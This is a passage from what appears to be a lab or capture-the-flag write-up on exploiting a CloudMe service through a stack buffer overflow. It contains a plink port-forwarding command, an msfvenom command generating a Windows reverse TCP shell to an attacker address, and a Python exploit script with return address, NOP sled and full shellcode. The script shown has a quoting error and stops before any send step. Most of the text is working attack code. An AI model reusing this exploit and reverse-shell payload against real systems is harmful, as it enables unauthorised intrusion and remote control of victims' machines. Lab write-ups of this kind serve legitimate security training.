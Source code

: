 ![2021-08-31_17-34.png](/home/sixstringacks/share/git/tmp_assets/5deaa7e25087785a2c92e8cdfffc1f651c292890.png)

I searched for Cloudme exploits and there were quite a few. Before I could start testing exploits I needed a connection to port 8888. I fired up plink again and this time I forwarded local port 8888 to my box.

```
echo y | .\plink.exe -ssh -l **** -pw "****" -P 2222 -R 9001:127.0.0.1:8888 10.10.14.7
```

There was quite a bit of trial an error involved in creating a working exploit for this. Some of the older ones on exploit-db.com were not working so I settled on [48389](https://www.exploit-db.com/exploits/48389) to use as a starting point because it was released a little closer to when the box was created. 

I used msfvenom for generating the payload in python format

```
msfvenom -a x86 -p windows/shell_reverse_tcp -b '\x00\x0A\x0D' lhost=10.10.14.7 lport=4201 -f python 
```

I updated the script with the payload, making sure the right port (9001) was set.

```
import socket
import sys

target = "127.0.0.1"

buf = \x90" * 1052
ret = "\xb5\x42\xa8\x68"
nopsled = "\x90"*30 # NOP sled 

# Payload
payload = b"\xbe\x34\xa1\x16\xa8\xdb\xd1\xd9\x74\x24\xf4\x5d"
payload += b"\x29\xc9\xb1\x52\x31\x75\x12\x03\x75\x12\x83\xf1"
payload += b"\xa5\xf4\x5d\x05\x4d\x7a\x9d\xf5\x8e\x1b\x17\x10"
payload += b"\xbf\x1b\x43\x51\x90\xab\x07\x37\x1d\x47\x45\xa3"
payload += b"\x96\x25\x42\xc4\x1f\x83\xb4\xeb\xa0\xb8\x85\x6a"
payload += b"\x23\xc3\xd9\x4c\x1a\x0c\x2c\x8d\x5b\x71\xdd\xdf"
payload += b"\x34\xfd\x70\xcf\x31\x4b\x49\x64\x09\x5d\xc9\x99"
payload += b"\xda\x5c\xf8\x0c\x50\x07\xda\xaf\xb5\x33\x53\xb7"
payload += b"\xda\x7e\x2d\x4c\x28\xf4\xac\x84\x60\xf5\x03\xe9"
payload += b"\x4c\x04\x5d\x2e\x6a\xf7\x28\x46\x88\x8a\x2a\x9d"
payload += b"\xf2\x50\xbe\x05\x54\x12\x18\xe1\x64\xf7\xff\x62"
payload += b"\x6a\xbc\x74\x2c\x6f\x43\x58\x47\x8b\xc8\x5f\x87"
payload += b"\x1d\x8a\x7b\x03\x45\x48\xe5\x12\x23\x3f\x1a\x44"
payload += b"\x8c\xe0\xbe\x0f\x21\xf4\xb2\x52\x2e\x39\xff\x6c"
payload += b"\xae\x55\x88\x1f\x9c\xfa\x22\xb7\xac\x73\xed\x40"
payload += b"\xd2\xa9\x49\xde\x2d\x52\xaa\xf7\xe9\x06\xfa\x6f"
payload += b"\xdb\x26\x91\x6f\xe4\xf2\x36\x3f\x4a\xad\xf6\xef"
payload += b"\x2a\x1d\x9f\xe5\xa4\x42\xbf\x06\x6f\xeb\x2a\xfd"
payload += b"\xf8\x1e\xa1\xf3\xff\x76\xb7\x0b\x10\xee\x3e\xed"
payload += b"\x7a\xe0\x16\xa6\x12\x99\x32\x3c\x82\x66\xe9\x39"
payload += b"\x84\xed\x1e\xbe\x4b\x06\x6a\xac\x3c\xe6\x21\x8e"
payload += b"\xeb\xf9\x9f\xa6\x70\x6b\x44\x36\xfe\x90\xd3\x61"
payload += b"\x57\x66\x2a\xe7\x45\xd1\x84\x15\x94\x87\xef\x9d"
payload += b"\x43\x74\xf1\x1c\x01\xc0\xd5\x0e\xdf\xc9\x51\x7a"
payload += b"\x8f\x9f\x0f\xd4\x69\x76\xfe\x8e\x23\x25\xa8\x46"
payload += b"\xb5\x05\x6b\x10\xba\x43\x1d\xfc\x0b\x3a\x58\x03"
payload += b"\xa3\xaa\x6c\x7c\xd9\x4a\x92\x57\x59\x7a\xd9\xf5"
payload += b"\xc8\x13\x84\x6c\x49\x7e\x37\x5b\x8e\x87\xb4\x69"
payload += b"\x6f\x7c\xa4\x18\x6a\x38\x62\xf1\x06\x51\x07\xf5"
payload += b"\xb5\x52\x02"

exploit = buf + ret + nopsled + payload
```